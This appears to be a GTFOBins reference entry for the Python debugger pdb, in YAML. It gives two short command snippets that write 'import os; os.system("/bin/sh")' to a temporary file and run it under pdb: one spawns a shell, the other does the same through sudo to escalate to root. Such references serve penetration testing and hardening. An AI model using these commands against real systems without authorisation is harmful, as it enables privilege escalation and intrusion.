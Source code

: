 ```yaml
---
description: This allows to execute [`python`](/gtfobins/python/) code, other functions may apply.
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'import os; os.system("/bin/sh")' > $TF
        pdb $TF
        cont
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'import os; os.system("/bin/sh")' > $TF
        sudo pdb $TF
        cont
---
```

